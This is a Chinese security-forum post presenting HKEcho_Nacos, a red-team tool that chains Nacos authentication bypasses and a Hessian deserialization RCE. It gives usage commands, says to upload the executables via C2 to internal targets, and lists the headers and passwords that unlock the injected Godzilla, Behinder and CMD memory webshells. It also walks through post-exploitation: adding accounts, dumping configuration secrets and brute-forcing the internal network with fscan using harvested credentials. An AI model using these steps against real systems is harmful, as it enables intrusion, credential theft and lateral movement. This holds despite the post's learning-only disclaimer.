

# Nacos 红队快速利用工具 - 先知社区

Nacos 红队快速利用工具

- - -

# HKEcho Nacos 快速利用工具 v0.1

**原创投稿作者：HKEcho@深蓝实验室天玄攻防战队**

注意：工具仅供学习使用，请勿滥用，否则后果自负！

```plain
~~||HKEcho Nacos 快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置 Referer:https://www.google.com/
```

工具文件夹中 HKEcho\_Nacos.exe，nacosleak.exe 均已通过 upx 压缩加壳减小体积。

## 原理

本工具支持检测以下漏洞：

```plain
0、未授权查看用户列表

以下漏洞顺序执行直到获取到一个账号：
1、检测 nacos 默认口令
2、任意用户添加
3、任意用户添加 UA_Bypass
4、任意用户添加末尾斜杠绕过
5、默认 JWT 任意用户添加
6、JWT_Secret_Key 硬编码绕过
7、Identity 硬编码绕过
8、QVD-2023-6271 身份认证绕过
一旦某个漏洞获取账号密码后，会调用 a1phaboy 师傅写的 nacosleak 读取配置文件

9、Nacos_Jraft_Hessian 反序列化漏洞
程序会调用 c0olw 师傅写的 NacosRce 打一遍 Jraft_Hessian 反序列化漏洞（本工具在调用这个 NacosRce 工具前会判断 Java 环境，若不存在，则告警不执行）
```

## 安装

```plain
pip install -r requirements.txt
```

## 食用

```plain
HKEcho_Nacos>python HKEcho_Nacos.py -h
* * * * * * * * * * * * * * * * * * * * * * * *
        ~~||HKEcho Nacos 快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置 Referer:https://www.google.com/
* * * * * * * * * * * * * * * * * * * * * * * *
usage: HKEcho_Nacos.py [-h] [-u URL] [-f FILENAME]

optional arguments:
  -h, --help   show this help message and exit
  -u URL       要检查漏洞的单个 URL:http://127.0.0.1:8848
  -f FILENAME  批量检测，包含 URL 的文本文件
```

**1、单个目标检测：**

```plain
python HKEcho_Nacos.py -u http://192.2xx.2xx.1x:8848
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164155-7a254a50-94dc-1.png)

**2、批量目标检测**：

新建 txt 文件，一行放一个 Nacos 的 URL

```plain
python HKEcho_Nacos.py -f target.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164217-86e85886-94dc-1.png)

**3、特殊场景下使用**

注意：HKEcho\_Nacos.exe 命令行界面在 win11 下图形加载正常，其余系统可能存在显示问题，不影响程序使用

上传 python 打包的 HKEcho\_Nacos.exe 到 C2 上使用，注意，单纯上传 HKEcho\_Nacos.exe 运行，会对内网目标 nacos 添加一个账号，不会对目标进行配置文件导出和检测 Nacos\_Jraft\_Hessian 反序列化漏洞。若想导出配置文件，可单独上传 nacosleak.exe 进行读取。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164232-902cc9d6-94dc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164250-9ace67a0-94dc-1.png)

或者如下图直接将 HKEcho\_Nacos.exe 与 nacosleak.exe 通过 C2 上传到目标服务器上同一目录下，直接执行 HKEcho\_Nacos.exe 会自动调用 nacosleak.exe

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164303-a29ddc72-94dc-1.png)

同理，若想检测检测 Nacos\_Jraft\_Hessian 反序列化漏洞，同理可以将 NacosRce 压缩后上传到目标服务器上同一目录下，不过不建议这样，NacosRce 太大了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164319-ac4993ec-94dc-1.png)

## Nacos 后利用

### Nacos 配置文件

上述利用完成后，会在/results/ip\_port/public 目录下生成目标站点的配置文件，a1phaboy 师傅特别将 ak/sk,password 关键字提取了出来：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164337-b6989cb2-94dc-1.png)

我们可以在内网可以通过该密码本快速爆破，比如利用 fscan 等工具

```plain
fscan.exe -h 192.168.1.1/24 -o 192.168.1.txt -pwda 收集到的新密码 -usera 收集到的新用户
```

### Nacos Hessian 反序列化漏洞

这个漏洞在项目中其实遇到的不是很多。

一、冰蝎内存马：

```plain
1、需要设置请求头 x-client-data:rebeyond
2、设置 Referer:https://www.google.com/
3、路径随意
4、密码 rebeyond
```

二、哥斯拉内存马：

```plain
1、需要设置请求头 x-client-data:godzilla
2、设置 Referer:https://www.google.com/
3、路径随意
4、密码是 pass 和 key
```

三、CMD 内存马：

```plain
1、需要设置请求头 x-client-data:cmd
2、设置 Referer:https://www.google.com/
3、请求头 cmd:要执行的命令
```

#### **后渗透**

后渗透利用 pap1rman 师傅的哥斯拉 nacos 后渗透插件-postnacos

MakeToken

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164359-c3c9fc78-94dc-1.png)

将生成后的 token 保存进浏览器 cookie 格式 token:{xxx}

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164425-d32a9ab0-94dc-1.png)

**Adduser**

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164446-dfe7c7fa-94dc-1.png)

添加一个账号后，用 nacosleak 单独把配置文件读取下来。

```plain
nacosleak.exe -t http://192.2xx.2xx.21:8848 -u audit2 -p Password123!
```

## 测试环境

在 github 下载有漏洞的版本  
[https://github.com/alibaba/nacos/releases](https://github.com/alibaba/nacos/releases)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164511-eea9f470-94dc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164529-f9a95906-94dc-1.png)

## 参考链接

致谢：  
[https://github.com/Pizz33/nacos\_vul](https://github.com/Pizz33/nacos_vul)  
[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)  
[https://github.com/pap1rman/postnacos](https://github.com/pap1rman/postnacos)

## 项目地址

[https://github.com/HKEcho5213/HKEcho\_Nacos.git](https://github.com/HKEcho5213/HKEcho_Nacos.git)
